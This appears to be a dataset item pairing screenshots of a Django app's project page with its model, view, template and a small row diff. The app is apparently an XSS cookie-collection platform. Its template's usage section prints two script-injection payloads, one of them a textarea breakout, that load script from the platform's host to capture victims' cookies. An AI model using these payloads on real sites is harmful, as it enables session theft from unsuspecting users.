
The app's page /project/?id=1 (signed in), older data.

The same page, newer data.
### core/models.py (models this page shows, shortened)
class XssProject(models.Model):
    user = models.ForeignKey(User)
    title = models.CharField(max_length=30)
    records = models.ManyToManyField(Record, blank=True, null=True)
    create_time = models.DateTimeField(auto_now_add=True)

### core/views.py (the view)
# urls.py: url(r'^project/$', 'core.views.project_detail', name="project_detail"),
@login_required(login_url="/login/")
def project_detail(request):
    project_id = request.GET.get("id", "-1")
    try:
        p = XssProject.objects.get(pk=int(project_id), user=request.user)
    except XssProject.DoesNotExist:
        raise Http404
    if "csrftoken" in request.COOKIES:
        token = request.COOKIES["csrftoken"]
    else:
        token = ""
    return render(request, "core/project_detail.html", {"project": p, "base_url": BASE_URL, "token": token})

### templates/core/project_detail.html (shortened to what this page needs)
{% extends "base.html" %}
{% block body %}
{% include "_nav_bar.html" %}
<div class="container">
    <div class="project">
        <div class="project_description">
            <h3>{{ project.title }}</h3>
            <p>Create time:{{ project.create_time|date:"Y-m-d H:i:s" }}&nbsp;&nbsp;&nbsp;&nbsp;
                <span class="glyphicon glyphicon-trash"></span>
                <a href="javascript:void(0)" onclick="delete_project()">Delete this project</a></p>
            <hr/>
            <div class="instruction">
                <p>How to use?</p>
                <p><code>&ltscript src="{{ base_url }}xss?id={{ project.id }}"&lt/script&gt</code></p>
                <p><code>&lt/textarea&gt'"&gt&ltscript src="{{ base_url }}xss?id={{ project.id }}"&lt/script&gt</code></p>
            </div>
        </div>
        <hr/>
        <div class="project_records">
            <div class="panel panel-default">
                <div class="panel-body">
                    {% if not project.records.all %}
                    <p>No cookies</p>
                    {% endif %}
                </div>
            </div>
        </div>
    </div>
</div>
{% endblock %}

Row changes from the older to the newer data that the page shows:
changed XssProject id 1: title "11111111" → "1111111111"; create_time "2014-04-28 15:13:37" → "2014-04-28 17:56:21"
